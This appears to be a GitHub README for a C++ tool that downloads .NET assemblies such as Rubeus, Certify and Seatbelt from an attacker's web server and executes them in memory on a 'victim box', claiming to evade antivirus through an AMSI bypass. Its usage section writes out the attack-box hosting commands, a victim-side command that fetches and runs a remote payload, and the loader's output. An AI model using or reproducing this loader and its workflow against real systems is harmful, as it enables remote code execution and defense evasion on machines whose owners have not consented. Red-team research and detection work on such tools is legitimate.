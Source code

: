 ## Cpp-ExecAssembly

C++ tool load and execute assemblies in-memory, without triggering AV/EDR alerts.

![](screens/assembly-1.png)

## Usage

Compile in release mode

On your attack box, host your assemblies on a web server:
```bash
$ ls -la /tmp/Assemblies
total 1244
drwxrwx--- 2 root root   4096 Mar  7 13:46 .
drwxrwxrwt 1 root root   4096 Mar  7 13:27 ..
-rw-r----- 1 root root 178688 Mar  7 13:46 Certify.exe
-rw-r----- 1 root root 466432 Mar  7 13:27 Rubeus.exe
-rw-r----- 1 root root 608256 Mar  7 13:27 Seatbelt.exe
-rw-r----- 1 root root   4608 Mar  7 13:27 TestAssembly.exe

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

On the victim box, run the loader, specifying the following arguments:
- argv[1] : attack box's HTTP host
- argv[2] : HTTP path to the assembly
- argv[2+X] : Assembly's argument 1
- argv[2+X+1] : Assembly's argument 2
- and so on ...

For instance :
```powershell
PS> .\ExecAssembly.exe 192.168.57.1 /Assemblies/Seatbelt.exe       AntiVirus
           ^                ^                  ^                       ^
      /          \     /          \ /                      \ /                  \
         ProgName       HTTP Host        Assembly path         Seatbelt's arg1

[+] InitMetaHost success
[+] InitRuntime success
[+] Runtime is loadable
[+] InitInterface success
[+] Runtime started
[+] Opened Default Domain
[+] Interface opened on Default Domain
[+] InitAssemblyMemory success
[+] Assembly loaded
[+] Assembly's entry point parsed
[+] Invocation success


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe

```
## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## Notes

This seems to bypass all AVs.
However, this is not true for EDRs. Behevioural analysis will trigger alerts on good EDRs depending on what you are doing, even directly upon loading, as this program does not implement any evasion technique apart from AMSI bypass.

